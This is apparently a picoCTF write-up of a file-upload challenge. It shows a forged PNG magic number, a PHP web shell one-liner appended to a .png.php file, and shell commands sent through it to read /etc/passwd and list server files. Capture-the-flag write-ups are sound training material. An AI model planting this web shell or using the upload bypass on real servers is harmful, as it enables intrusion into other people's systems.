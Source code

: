 

**Objective:** 
Exploit a web application that only accepts `.png` files to achieve Remote Code Execution (RCE).

## Steps and Analysis:

### 1. Initial Observation:
- Accessed the website which prompted for a `.png` file upload.
- Screenshot: [Initial Website View]![[Pasted image 20240315190122.png]]
### 2. Dir busting
- `gobuster dir -u http://gobuster dir -u http://atlas.picoctf.net:62175/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt`
- Output
	- ![[Pasted image 20240315193009.png]]

### 3. File Preparation and Magic Number Manipulation:
- Downloaded a random image from the internet to use as a base.
- Altered the magic number in the file to match a PNG file.
- Screenshot of modified magic number: [Magic Number Modification]![[Pasted image 20240315190323.png]]
- _Note: The magic number (file signature) was altered to bypass file type checks by the website._


### 4. Embedding PHP Code:
- Appended PHP code to the image file to facilitate RCE using the following command:
  ```
  echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> PNG.png.php
  ```

### 5. Accessing the Uploaded File and Testing RCE:
- Navigated to the uploaded file’s URL: `atlas.picoctf.net:63517/uploads/PNG.png.php`
- Screenshots of the uploaded file in action: [File Location] ![[Pasted image 20240315191200.png]], 
- Confirmed RCE by executing a test command (`cat /etc/passwd`):
  ```
  atlas.picoctf.net:63517/uploads/PNG.png.php?cmd=cat /etc/passwd
  ```
- Screenshot of test command execution: [Test Command Execution![[Pasted image 20240315191311.png]]

### 6. Exploring the Server:
- Used the `pwd` command to print the current working directory, revealing the path: `/var/www/html/uploads`
-  `atlas.picoctf.net:63517/uploads/PNG.png.php?cmd=pwd`
	- `/var/www/html/uploads`

### 7. Listing Directory Contents:
- Listed directories in `/var/www/html`, identifying a file named `GNTDOMBWGIZDE.txt` as potentially interesting.
- Screenshot of directory listing: [Directory Listing]
- ![[Pasted image 20240315191622.png]]

### 8. Accessing the Identified File:
- Decided to investigate the `GNTDOMBWGIZDE.txt` file.
- Screenshot of the file's contents: [File Contents ![[Pasted image 20240315191801.png]]

**Conclusion:** 
Successfully achieved RCE by manipulating an image file’s magic number and embedding PHP code, allowing exploration of the server and identification of potential points of interest.
